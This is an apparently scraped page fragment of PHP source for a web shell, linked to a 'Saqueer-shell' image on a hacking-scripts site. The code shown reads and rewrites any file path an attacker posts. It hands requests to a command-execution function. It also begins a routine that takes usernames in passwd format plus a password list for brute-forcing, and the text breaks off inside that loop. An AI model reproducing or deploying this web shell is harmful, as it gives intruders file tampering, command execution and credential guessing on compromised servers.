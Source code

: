 





	if($_POST['page']=='show')
	{
	$pathclass =$_POST['pathclass'];
echo '
&lt;form method="POST"&gt;
&lt;input type="hidden" name="page" value="edit"&gt;
';
	
	$sahacker = fopen($pathclass, "rb");
echo '&lt;center&gt;'.$pathclass.'&lt;br&gt;&lt;textarea dir="ltr" name="code" style="width: 845px; height: 404px"&gt;';	
$code = fread($sahacker, filesize($pathclass));
echo $code =htmlspecialchars($code);
echo '&lt;/textarea&gt;';	
	fclose($sahacker);
echo '
&lt;br&gt;&lt;input type="text" name="pathclass" value="'.$pathclass.'" style="width: 445px;"&gt;
&lt;br&gt;&lt;strong&gt;&lt;input type="submit" value="edit file"&gt;
&lt;/form&gt;
';
		exit;
	}




	if($_POST['page']=='ccmmdd')
	{
	echo ccmmdd($ccmmdd2,$att);
	exit;
	}
























if($_POST['page']=='find')
{
if(isset($_POST['usernames']) && isset($_POST['passwords']))
{
    if($_POST['type'] == 'passwd'){
        $e = explode("\n",$_POST['usernames']);
        foreach($e as $value){
        $k = explode(":",$value);
        $username .= $k['0']." ";
        }
    }elseif($_POST['type'] == 'simple'){
        $username = str_replace("\n",' ',$_POST['usernames']);
    }
    $a1 = explode(" ",$username);
    $a2 = explode("\n",$_POST['passwords']);
    $id2 = count($a2);
    $ok = 0;
    foreach($a1 as $user )

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png